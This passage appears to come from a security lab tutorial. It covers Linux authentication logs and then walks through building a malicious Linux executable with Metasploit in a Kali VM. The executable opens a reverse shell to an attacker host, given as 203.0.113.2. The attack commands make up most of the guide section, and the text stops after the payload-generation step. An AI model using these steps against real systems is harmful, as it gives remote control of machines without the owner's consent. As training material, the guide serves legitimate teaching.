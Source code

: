 ### **3. System Logs**
Logs are files that record events and actions within a system. Common logs include:
- **auth.log**: Tracks authentication attempts.
- **wtmp**: Records successful logins.
- **btmp**: Logs failed login attempts.

---

## Step-by-Step Guide with Explanations

### 1. Building a Malicious Executable

#### **What Are We Doing?**
We will create a malicious executable that, when run on a target system, establishes a reverse shell to a remote attacker-controlled machine.

#### **Steps**:
1. **Set Up the Environment**:
   - Open the terminal in **Kali VM**.
   - Create a directory for the malicious file:
     ```bash
     mkdir malicious
     cd malicious
     ```
   - **Why?** Organizing files ensures a clean working environment.

2. **Start Metasploit**:
   - Run Metasploit:
     ```bash
     msfconsole
     ```
   - Search for a reverse shell payload:
     ```bash
     search linux/x64/shell_reverse_tcp
     ```
   - Use the payload:
     ```bash
     use 0
     ```

   - **Why?** A reverse shell payload allows remote access to the target system when executed.

3. **Configure the Payload**:
   - Set the local host (attacker's IP):
     ```bash
     set LHOST 203.0.113.2
     ```
   - Generate the malicious executable:
     ```bash
     generate -f elf -o linux
     ```
